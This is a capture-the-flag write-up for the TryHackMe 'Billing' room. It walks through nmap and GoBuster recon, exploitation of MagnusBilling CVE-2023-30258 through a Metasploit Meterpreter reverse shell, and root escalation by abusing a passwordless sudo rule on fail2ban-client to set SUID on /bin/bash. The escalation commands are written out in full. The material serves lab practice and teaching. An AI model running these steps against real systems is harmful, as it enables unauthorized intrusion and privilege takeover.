

# Billing
Some mistakes can be costly.

## Recon

Like every machine, we need to start mapping the network to see what **we** are getting into. We can do that with `nmap`. The flags we used in this scan (`-sV`, `-A`) enable OS and service detection along with script scanning.

At first glance, the most interesting ports right now are `3306`, where MariaDB is running, and `80`, where the web server is hosted via Apache.

```text
$ sudo nmap -sV -A 10.10.10.10
Starting Nmap 7.98 ( [https://nmap.org](https://nmap.org) ) at 2026-01-31 11:12 +0100
Nmap scan report for 10.10.10.10
Host is up (0.27s latency).
Not shown: 996 closed tcp ports (reset)
PORT  STATE  SERVICE VERSION
22/tcp   open     ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 bc:2a:6b:af:28:df:c1:d3:d8:b6:9c:55:ff:29:53:1c (ECDSA)
|_  256 85:9e:4e:2f:f5:60:75:1e:8a:2e:0c:12:29:ff:a4:42 (ED25519)
80/tcp   open     http     Apache httpd 2.4.62 ((Debian))
| http-title:           MagnusBilling        
|_Requested resource was [http://10.10.10.10/mbilling/](http://10.10.10.10/mbilling/)
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
|_http-server-header: Apache/2.4.62 (Debian)
3306/tcp open     mysql     MariaDB 10.3.23 or earlier (unauthorized)
6692/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see [https://nmap.org/submit/](https://nmap.org/submit/) ).
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=1/31%OT=22%CT=1%CU=41894%PV=Y%DS=3%DC=T%G=Y%TM=697DD6B
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=102%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=9)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%
OS:CI=Z%II=I%TS=A)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=109%G
OS:CD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M4E8ST11NW7%O2=M4E8ST11NW7%O3=M4
E8NNT11NW7%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M4E8ST11)WIN(W1=F4B3%W2=F4B3
OS:%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M4E8NNSNW7%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%
OS:T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

During the GoBuster directory enumeration, we used a common wordlist that you can find here and found this:
```
===============================================================
[+] Url:              [http://10.10.10.10/mbilling/](http://10.10.10.10/mbilling/)
===============================================================
archive              (Status: 301) [Size: 325]
resources            (Status: 301) [Size: 327]
assets               (Status: 301) [Size: 324]
lib                  (Status: 301) [Size: 321]
LICENSE              (Status: 200) [Size: 7652]
tmp                  (Status: 301) [Size: 321]
protected            (Status: 403) [Size: 278]
```

After exploring the directories, we excluded everything except for `lib/`, which contains the vulnerable files. After that, we used the common file located and named in `/mbilling/README.md` to identify the MagnusBilling version, allowing us to search online and find `CVE-2023-30258`.


## Exploitation

To make the exploitation process easier, we searched for `CVE-2023-30258` on Metasploit, found it, set the necessary options, and then finally exploited it with a payload containing a Meterpreter reverse shell so we could execute commands arbitrarily.

Now that we can navigate the system, let's search for the user flag needed for this Billing room.

After some exploring, it could be easily found in the `/home/user/magnus/` directory. And here it is, the `user.txt` file with the first flag in it:
```bash
$ cat /home/user/magnus/user.txt
THM{REDACTED}
```

## Privilege Escalation

Nice! We just got the first flag, but now we need to escalate privileges to find the root flag.

After checking things out with system enumeration commands, we finally found a vector:
```bash
$ sudo -l
[...]
User asterisk may run the following commands on ip-**.**.**.**:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

The `NOPASSWD` sudo permission was present for the `fail2ban-client` binary.

What is [Fail2ban](https://www.fail2ban.org/wiki/index.php/Main_Page)?

Fail2Ban scans log files like `/var/log/auth.log` and bans IP addresses conducting too many failed login attempts, allowing custom scripts to run when an event happens.

Thanks to this, we can abuse it to perform a specific action—more precisely, a command or file that can be used to execute anything we want as root (without showing the output to the attacker).

Using GTFOBins, we can find the binary [easily](https://gtfobins.org/gtfobins/fail2ban-client/) and use it to finally elevate our privileges.

The technique we will use involves setting the SUID bit on `/bin/bash` so we can easily spawn a root shell.

First, we create the malicious configuration:
```bash
sudo fail2ban-client add x
sudo fail2ban-client set x addaction x
sudo fail2ban-client set x action x actionban "chmod +u=s /bin/bash"
sudo fail2ban-client start x
sudo fail2ban-client set x banip 999.999.999.999
sudo fail2ban-client set x unbanip 999.999.999.999
sudo fail2ban-client stop x
```

Now that we are done, let's check if the action completed successfully:

```bash
$ ls -lah /bin/bash
-rwsr-xr-x 1 root root 1.3M Apr 18  2025 /bin/bash
```

And here it is! The SUID bit is successfully set and we are ready for the final command:

```bash
$ /bin/bash -p
# Now let's check if we're root
$ whoami
root

```

Finally, let's read the root flag which can be found in the `/root` directory:

```bash
$ cat /root/root.txt
THM{REDACTED}
```


Room link: [TryHackMe Billing](https://tryhackme.com/r/room/billing)

P.S: This is my first Write-up for a machine. Thank you if you reached the end!
March 7, 2026, at 21:41:34 
